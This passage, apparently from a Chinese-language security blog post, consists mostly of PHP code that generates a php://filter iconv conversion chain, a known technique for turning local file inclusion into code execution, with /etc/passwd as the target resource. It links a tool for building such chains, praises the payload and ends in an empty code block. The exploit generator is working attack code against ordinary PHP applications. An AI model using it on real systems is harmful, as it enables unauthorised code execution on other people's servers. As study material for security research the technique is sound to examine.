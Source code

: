 ```php
    'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
);

$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";

foreach (str_split(strrev($base64_payload)) as $c) {
    $filters .= $conversions[$c] . "|";
    $filters .= "convert.base64-decode|";
    $filters .= "convert.base64-encode|";
    $filters .= "convert.iconv.UTF8.UTF7|";
}
$filters .= "convert.base64-decode";

$final_payload = "php://filter/{$filters}/resource=/etc/passwd";

echo $final_payload;
var_dump(file_get_contents($final_payload));
```
![](https://img-blog.csdnimg.cn/09f838b56236430db75bb88642186043.png)
使用工具：[https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
真的太强了，这个payload：
```php
```